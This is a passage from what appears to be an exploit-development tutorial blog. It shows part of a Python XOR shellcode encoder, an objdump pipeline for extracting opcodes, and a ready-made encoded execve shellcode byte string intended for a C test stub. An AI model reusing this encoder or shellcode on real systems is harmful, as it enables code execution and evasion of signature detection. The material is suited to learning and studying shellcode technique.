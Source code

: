   # we want to reset it to begin the cycle again
  if encoder_dirty == 0x00000000:
    encoder_dirty = encoder

  # get the first and rest of our shellcode
  f, r            = shellcode_bytes[0], shellcode_bytes[1:]
  b               = encoder_dirty & 0xff
  result          = f ^ b
  # get the lowest significant byte of our decoder
  # xor the current shellcode byte
  # append it to our encoded shellcode
  encoded.append(result)

  # update our shellcode to be the shellcode
  # minus the first byte
  shellcode_bytes = r

  # shift off the lowest significant byte
  encoder_dirty   = encoder_dirty >> 8

# Format our bytes as hex for output
formatted = [hex(b) for b in encoded]

print "Shellcode Length: %s" % len(formatted)
print(",".join(formatted))

{% endhighlight %}

Let's try encoding the execve-stack shellcode, placing it
in our decoder assembly program, extracting the bytes and
placing those in our shellcode.c stub and see if we can get
some code execution as we would hope.

Grab the bytes of execve-stack shellcode. Make sure to adjust the cut
column count to 7 as the disassembly has bytes in the seventh column:

{% highlight bash %}
objdump -d ./decoder|grep '[0-9a-f]:'| grep -v 'file'|\
cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' ' |sed 's/ $//g'|\
sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xeb\x20\x5e\xb8\xef\xbe\xad\xde\x31\xd2\x31\xff\xb1\x19\xbb\xef\xbe\xad\xde\x39\xfb\x74\xf7\x30\x1c\x16\x42\xc1\xeb\x08\xe2\xf3\xff\xe6\xe8\xdb\xff\xff\xff\xde\x7e\xfd\xb6\xc0\x91\xc1\xad\x87\x91\xcf\xb7\x81\x37\x4e\x8e\x66\x5c\xfe\x57\x0e\x0e\xa6\x13\x6f"

{% endhighlight %}
